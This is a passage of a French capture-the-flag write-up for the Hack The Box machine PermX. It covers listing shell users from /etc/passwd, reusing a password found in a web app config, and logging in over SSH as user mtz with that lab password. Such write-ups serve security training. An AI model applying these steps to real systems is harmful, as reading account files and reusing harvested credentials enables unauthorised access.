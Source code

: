 ### Identification des utilisateurs système

Vérification des utilisateurs locaux avec un shell :

```bash
cat /etc/passwd | grep '/bin/bash'
```

**Résultat :** L'utilisateur `mtz` a accès shell.

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Credentials en clair trouvés \!</strong> Ces identifiants sont potentiellement réutilisés ailleurs sur le système.
    </p>
</div>

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-lightbulb mr-2 text-cyan-500"></i>
        <strong>Technique :</strong> Les fichiers de configuration d'applications web sont une mine d'or pour le pivoting — ils contiennent souvent des credentials valides réutilisés sur le système.
    </p>
</div>


## 🔐 Phase 6 — Accès SSH et user flag

### Connexion SSH

Tentative de connexion SSH avec le mot de passe découvert :

```bash
ssh mtz@permx.htb
```

**Mot de passe :** `03F6lY3uXAP2bkW8`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Connexion SSH réussie\!
    </p>
</div>

### Validation de l'accès

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
    </div>
</div>
